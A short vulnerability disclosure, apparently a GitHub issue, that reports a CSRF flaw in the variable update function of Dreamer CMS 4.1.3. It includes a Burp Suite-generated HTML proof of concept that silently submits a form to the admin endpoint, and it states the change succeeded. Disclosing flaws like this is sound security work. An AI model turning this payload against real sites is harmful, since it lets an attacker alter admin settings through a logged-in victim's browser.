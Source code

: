 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

There is a csrf vulnerability in the variable management modification function


![1697124235719](https://github.com/moonsabc123/dreamer_cms/assets/145991754/a78af8d7-a0aa-4b84-a2b7-ece622626fda)


click and Create a csrf poc

![1697124264515](https://github.com/moonsabc123/dreamer_cms/assets/145991754/efdb0a44-e455-4a13-adf8-1edd9b5a1ffb)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/variable/update" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="id" value="1712488872566063104" />
      <input type="hidden" name="itemName" value="cs1" />
      <input type="hidden" name="info" value="cs" />
      <input type="hidden" name="value" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Successfully modified

![1697124315827](https://github.com/moonsabc123/dreamer_cms/assets/145991754/1853a0c2-eeb2-4e13-8b5a-2836b04e2382)
